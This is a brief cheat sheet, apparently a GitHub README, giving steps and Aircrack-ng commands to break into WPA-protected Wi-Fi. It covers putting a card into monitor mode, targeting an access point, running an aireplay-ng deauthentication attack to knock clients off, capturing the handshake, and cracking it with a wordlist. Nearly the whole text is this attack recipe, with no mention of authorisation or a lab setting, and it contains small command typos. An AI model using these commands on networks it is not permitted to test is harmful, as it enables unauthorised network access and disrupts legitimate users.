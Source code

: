 ## Tool: Aircrack-ng suite

## Steps:

#### 1) Place = Place wireless card into monitor mode

#### 2) Discover = Discover information about network (Channel, BSSID)

#### 3) Select = Select and capture data

#### 4) Perform = Perform deauth attack

#### 5) Capture = Capture WPA handshake

#### 6) Attempt = Attempt to crack the handshake

## Commands:

#### 1) iwconfig

#### 2) Airmon-ng check kill (Kill processes that might interfere)

#### 3) airmon-ng start WIRELESS_INTERFACE (example: wlan0)

#### 4) airodump-ng WIRELESS_INRERFACEmon (wlan0mon) (Monitor for traffic and search for an access point to target)

#### 5) airodump-ng -c CHANNEL --bssid BSSID -w CAPTURE_FILE -w WIRELESS_INTERFACEmon (wlan0mon)

#### 6) aireplay-ng -0 NUM -a MAC_ADDRESS_OF_ACCESS_POINT -c STATION_NUMBER WIRELESS_INTERFACEmon (wlan0mon) (Deauth Attack, NUM means how many times will this attack be performed)

#### 7) aircrack-ng -w WORDLIST.TXT -b BSSID CAPTURE_FILE (Crack WPA Handshake)
